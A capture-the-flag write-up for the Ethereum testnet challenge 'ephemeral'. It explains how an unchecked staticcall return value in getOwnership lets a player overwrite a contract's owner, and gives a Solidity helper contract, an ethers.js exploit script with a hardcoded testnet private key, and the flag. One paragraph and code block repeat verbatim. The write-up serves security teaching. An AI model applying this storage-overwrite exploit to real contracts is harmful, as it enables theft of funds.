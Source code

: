 ```yaml
---
title: ephemeral
categories: Miscellaneous
tags: Blockchain
completedDuringEvent: true
submitted: true
flag: ARA6{sh0u7_out_70_3ph3me24l_prov1d3r5}
draft: false
---
```

## Scenario

> The Ethereum testnet are one of the great place to test out stuff. Try my new favorite testnet at https://ephemery.dev/.
>
> To get the flag, solve the challenge and paste your proof-of-work result into the remote interface below.
> 
> `nc 103.185.52.95 13378`

By thehxnz

## Solution

Generating the proof-of-work result from `pow.py`, the result is `734514167936362`. We can paste the result into the remote interface to get the server's response.

```sh
$ nc 103.185.52.95 13378
verifiyer 0.1.0
Using https://otter.bordel.wtf/erigon

Enter your PoW: 734514167936362
PoW is valid.
Creating setup contract...
Setup       : 0x2812007F73614B913fb314770BAe528f8B7fc912
Challenge   : 0x1944C4d052D1E6d4ae16654eff2ea9089b7587da
Your Address: 0x29AB03c3f9cFf0CE4188B0b5945745c3c1A39DEF
Private Key : 0x2f85c431ef33e2ac950661946ad27429ed711bd85edcd248157f351c0fffd445
RPC         : https://otter.bordel.wtf/erigon
```

So this will create a **Setup Contract** and a **Challenge Contract**. In the **Setup Contract** the `player` variable will be set to the address we provide, and will create a **Challenge Contract** with the `owner` variable, where the `owner` variable is set to `msg.sender` from the **Setup Contract**.

```
constructor() {
    owner = msg.sender;
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide.

```
function isSolved() external view returns (bool) {
    return IChallenge(challenge).owner() == player;
}
```

From the `transferOwnership` function we can see that we have to change the owner of the **Challenge Contract** to the `player` that we provide. However, we cannot change the `owner` of the **Challenge Contract** because it does not meet the condition` msg.sender == owner`. Where msg.sender is the player and `owner` is the **Setup Contract** that we provide.

```
function transferOwnership(address newOwner) external {
    require(msg.sender == owner, "Not owner");
    owner = newOwner;
}
```

From the `getOwnership` function we can see that check if the caller is a contract then `staticcall` the `account` and call the `gas`, then copy the data from the `returndata` to the `sstore` at slot 0.

```
function getOwnership(address account) external {
    assembly {
        let size := extcodesize(caller())
        if iszero(eq(size, 0)) {
            revert(0, 0)
        }
        let why := staticcall(gas(), account, 0, 0, 0, 0x20)
        
        if iszero(eq(returndatasize(), 0x20)) {
            revert(0, 0)
        }
        returndatacopy(0, 0, 0x20)
        sstore(0, mload(0))
    }
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide. We can do this by deploying a **Helper Contract** that will return the `target` address in the `fallback` function where we return the `target` address in the `returndata`. We can then call the `getOwnership` function with the **Helper Contract** address to write to the `sstore` at slot 0.

```
function getOwnership(address account) external {
    assembly {
        let size := extcodesize(caller())
        if iszero(eq(size, 0)) {
            revert(0, 0)
        }
        let why := staticcall(gas(), account, 0, 0, 0, 0x20)
       
        if iszero(eq(returndatasize(), 0x20)) {
            revert(0, 0)
        }
        returndatacopy(0, 0, 0x20)
        sstore(0, mload(0))
    }
}
```

To solve the challenge we need to change the `owner` of the **Challenge Contract** to the `player` that we provide. We can do this by deploying a **Helper Contract** that will return the `target` address in the fallback function where we return the `target` address in the `returndata`. We can then call the `getOwnership` function with the **Helper Contract** address to write to the `sstore` at slot 0.

```
pragma solidity ^0.8.0;
contract Helper {
    // 'target' is stored in slot 0.
    address public target;
    constructor(address _target) {
        target = _target;
    }
    // Fallback returns 32 bytes containing 'target'
    fallback() external {
        assembly {
            let t := sload(0)
            mstore(0, t)
            return(0, 32)
        }
    }
}
```

To automate the process, we can create a script using `ethers.js` to interact with the **Challenge Contract** and the **Helper Contract**.

```js
const { ethers, JsonRpcProvider } = require("ethers");
const solc = require("solc");

const SETUP_ADDRESS = "0xBaD1Bf25A3EB1786a0105F429fA63014eA092ea0";
const CHALLENGE_ADDRESS = "0xCf28A080bc6EcAf35764B1e39a8577082B56707b";
const ADDRESS = "0x49F9cdFb00EfA58962Fe062D91B8cCeccEFE5D25";
const PRIVATE_KEY = "0xf17789631ebf2eb733017fa1b6df40ace37ec1e0c8e4742996917b3f37aef572";
const RPC_URL = "https://otter.bordel.wtf/erigon";

const setupABI = ["function isSolved() external view returns (bool)"];
const challengeABI = [
    "function transferOwnership(address newOwner) external",
    "function getOwnership(address account) external",
    "function owner() external view returns (address)",
];

async function compileHelper() {
    const helperSource = `pragma solidity ^0.8.0;
contract Helper {
    // 'target' is stored in slot 0.
    address public target;
    constructor(address _target) {
        target = _target;
    }
    // Fallback returns 32 bytes containing 'target'
    fallback() external {
        assembly {
            let t := sload(0)
            mstore(0, t)
            return(0, 32)
        }
    }
}`;

    const input = {
        language: 'Solidity',
        sources: {
            'Helper.sol': {
                content: helperSource
            }
        },
        settings: {
            outputSelection: {
                '*': {
                    '*': ['*']
                }
            }
        }
    };

    const output = JSON.parse(solc.compile(JSON.stringify(input)));
    const compiledHelper = output.contracts["Helper.sol"]["Helper"];
    const helperAbi = compiledHelper.abi;
    const helperBytecode = compiledHelper.evm.bytecode.object;
    return [helperAbi, helperBytecode];
}

async function exploit() {
    const provider = new JsonRpcProvider(RPC_URL);
    const wallet = new ethers.Wallet(PRIVATE_KEY, provider);
    console.log("Connected as:", wallet.address);

    const setup = new ethers.Contract(SETUP_ADDRESS, setupABI, wallet);
    const challenge = new ethers.Contract(CHALLENGE_ADDRESS, challengeABI, wallet);

    console.log("Owner before exploit:", await challenge.owner());
    console.log("Is solved:", await setup.isSolved());

    const [helperAbi, helperBytecode] = await compileHelper();

    console.log("Deploying Helper contract...");
    const helperFactory = new ethers.ContractFactory(helperAbi, helperBytecode, wallet);
    const helper = await helperFactory.deploy(wallet.address);
    const helperAddress = await helper.getAddress();
    await helper.waitForDeployment();
    console.log("Helper deployed at:", helperAddress);

    console.log("Calling getOwnership with helper address...");
    const tx = await challenge.getOwnership(helperAddress);
    await tx.wait();
    console.log("Transaction confirmed");

    /* console.log("Transferring ownership to wallet...");
    const tx2 = await challenge.transferOwnership(wallet.address);
    await tx2.wait();
    console.log("Ownership transferred to wallet"); */

    console.log("Owner after exploit:", await challenge.owner());
    console.log("Is solved:", await setup.isSolved());
}

exploit();
```

After running the script, we can see that the `owner` of the **Challenge Contract** is changed to the `player` we provided. The `isSolved` function will return `true` if the `owner` of the **Challenge Contract** is the same as the `player` we provided.


```sh
$ nc 103.185.52.95 13378
verifiyer 0.1.0
Using https://otter.bordel.wtf/erigon

Enter your PoW: 734514167936362
PoW is valid.
Challenge solved!
ARA6{sh0u7_out_70_3ph3me24l_prov1d3r5}
```